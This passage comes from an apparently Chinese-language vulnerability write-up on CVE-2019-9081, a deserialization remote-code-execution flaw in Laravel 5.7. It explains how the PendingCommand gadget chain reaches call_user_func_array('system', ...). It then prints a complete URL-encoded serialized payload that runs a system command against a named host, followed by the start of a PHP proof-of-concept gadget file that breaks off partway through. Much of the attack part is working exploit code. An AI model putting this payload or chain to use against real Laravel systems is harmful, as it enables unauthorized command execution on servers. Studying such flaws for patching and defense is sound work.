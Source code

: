 `static::getCallReflector($callback)`这句用于利用反射获取`$callback`的对象，继续往下执行`static::addDependencyForCallParameter`，会对`$callback`的对象添加一些参数，但是这些不重要。最后一行才是关键。

最后将我们传入的`$parameters`参数数组和`$dependencies`数组合并，`$dependencies`数组为空。

最后在`BoundMethod`对象的`call`方法中我们相当于执行了以下代码:

    call_user_func_array('system',array('id'))

此时run函数中\$exitcode值即为命令的执行结果

![](resource/(CVE-2019-9081)Laravel5.7反序列化rce/media/rId47.png)

    payload：
    http://www.0-sec.org/laravel-5.7/public/index.php/index?code=O%3A44%3A%22Illuminate%5CFoundation%5CTesting%5CPendingCommand%22%3A4%3A%7Bs%3A10%3A%22%00%2A%00command%22%3Bs%3A6%3A%22system%22%3Bs%3A13%3A%22%00%2A%00parameters%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A2%3A%22id%22%3B%7Ds%3A6%3A%22%00%2A%00app%22%3BO%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3A2%3A%7Bs%3A22%3A%22%00%2A%00hasBeenBootstrapped%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00bindings%22%3Ba%3A1%3A%7Bs%3A35%3A%22Illuminate%5CContracts%5CConsole%5CKernel%22%3Ba%3A1%3A%7Bs%3A8%3A%22concrete%22%3Bs%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3B%7D%7D%7Ds%3A4%3A%22test%22%3BO%3A27%3A%22Illuminate%5CAuth%5CGenericUser%22%3A1%3A%7Bs%3A13%3A%22%00%2A%00attributes%22%3Ba%3A2%3A%7Bs%3A14%3A%22expectedOutput%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7Ds%3A17%3A%22expectedQuestions%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7D%7D%7D%7D

![](resource/(CVE-2019-9081)Laravel5.7反序列化rce/media/rId48.png)

### POC

    <?php
    //gadgets.php
    namespace Illuminate\Foundation\Testing{
        class PendingCommand{
            protected $command;
            protected $parameters;
            protected $app;
            public $test;

            public function __construct($command, $parameters,$class,$app)
            {
                $this->command = $command;
                $this->parameters = $parameters;
                $this->test=$class;
                $this->app=$app;
            }
        }
    }

    namespace Illuminate\Auth{
        class GenericUser{
            protected $attributes;
            public function __construct(array $attributes){
                $this->attributes = $attributes;
            }
        }
    }
